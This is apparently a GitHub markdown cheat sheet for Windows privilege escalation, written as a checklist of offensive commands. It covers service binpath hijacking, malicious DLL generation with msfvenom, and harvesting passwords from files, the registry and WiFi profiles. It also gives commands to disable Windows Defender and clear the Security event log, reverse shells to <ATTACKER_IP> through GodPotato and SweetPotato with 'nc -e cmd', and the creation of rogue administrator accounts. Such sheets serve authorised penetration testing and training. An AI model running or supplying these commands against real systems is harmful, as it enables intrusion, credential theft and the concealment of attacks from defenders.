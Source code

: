 - Access tokens
	- Check hacktricks token abuse
- Administrators Group -> fodhelper UAC bypass
- PowerShell history
```
Get-History
```
```
(Get-PSReadlineOption).HistrorySavePath
```
```
type <PATH>
```
- Service permissions
	- Recommended to use a script like PrivescCheck.ps1
```
sc qc <SERVICE>
```
```
#List service permissions
sc sdshow <SERVICE>
```
```
#List file/folder permissions (eg unquoted service path)
icacls <PATH>
```
```
#Reconfigure service
sc config <SERVICE> binpath="<PATH_TO_EXECUTABLE>" (executable can be a service executable or "cmd /c start /b <EXECUTABLE>")
```
```
sc <START/STOP> <SERVICE>
```
- DLL hijacking
	- Generate a malicious DLL with msfvenom
```
msfvenom <OPTIONS> -f dll -o <NAME>.dll
```
- recent folders/files
```
dir %USERPROFILE%\AppData\Roaming\Microsoft\Windows\Recent
```
- interesting folders/files
```
Get-ChildItem -Path C:\Users -Include *.txt,*.ini,*.pdf,*.kdbx,*.exe -Recurse -ErrorAction SilentlyContinue
```
- passwords in the registry
```
reg query HKLM /f password /t REG_SZ /s
```
- stored WiFi passwords
```
netsh wlan show profiles
```
```
netsh wlan export profile folder=. key=clear
```
- kernel version
- LOLBAS
- Check Applocker/Antivirus status
```
(Get-ApplockerPolicy -Effective).RuleCollections
```
```
Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct -ErrorAction  Stop
```
```
Get-MpComputerStatus
```
```
sc query windefend
```
- Disable Windows Defender
```
sc config WinDefend start=disabled
```
```
Set-MpPreference -DisableRealtimeMonitoring $true "%ProgramFiles%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
- Clear Event Log
```
Clear-EventLog -LogName Application, Security
```
- SeImpersonatePrivilege -> Potato Attacks
	- SweetPotato, GodPotato
```
SweetPotato.exe -p nc.exe -a "-nv <IP> <PORT> -e cmd" &
```
```
GodPotato.exe -cmd "nc -nv <IP> <PORT> -e cmd" &
```
```
GodPotato.exe -cmd "net user <USERNAME> <PASSWORD> /add"
```
```
GodPotato.exe -cmd "net localgroup Administrators <USERNAME> /add"
```
```
runascs <USERNAME> <PASSWORD> cmd  -b -r <ATTACKER_IP>:<PORT>
```
- SeRestorePrivilege -> SeRestoreAbuse